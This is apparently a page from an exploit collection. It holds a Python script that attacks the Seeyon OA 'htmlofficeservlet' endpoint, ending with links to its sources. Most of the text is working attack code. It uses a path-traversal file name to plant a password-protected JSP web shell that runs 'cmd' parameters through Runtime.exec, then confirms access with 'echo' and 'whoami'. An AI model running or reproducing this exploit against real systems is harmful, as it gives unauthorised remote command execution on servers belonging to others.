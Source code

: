 ```
            info['status'] = True
            info['result'] = "{} 可直接getshell, 测试文件路径: {}".format(arg,upfile_url)

def attack(arg):
    url = arg + "/seeyon/htmlofficeservlet"
    headers = {
        "Pragma": "no-cache",
        "Cache-Control": "no-cache",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close",
        "Content-Length": "429",
    }
    file_name = encode('..\\..\\..\\ApacheJetspeed\\webapps\\seeyon\\qwer960452.jsp')
    payload = """DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV\r
OPTION=S3WYOSWLBSGr\r
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66\r
CREATEDATE=wUghPB3szB3Xwg66\r
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6\r
originalFileId=wV66\r
originalCreateDate=wUghPB3szB3Xwg66\r
FILENAME="""+file_name+"""\r
needReadFile=yRWZdAS6\r
originalCreateDate=wLSGP4oEzLKAz4=iz=66\r
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("el38A9485".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce"""

    requests.post(url=url, data=payload, headers=headers)
    resp = requests.get(arg+'/seeyon/qwer960452.jsp?pwd=el38A9485&cmd=cmd+/c+echo+ekwjkjrwre')
    if 'ekwjkjrwre' in resp.text:
        print "{} 的 webshell 路径: {}".format(arg,arg+'/seeyon/qwer960452.jsp?pwd=el38A9485&cmd=cmd+/c+whoami')
```



参考链接
--------

> https://github.com/nian-hua/CVEScript/blob/master/致远OA/zhiyuan.py
>
> http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/

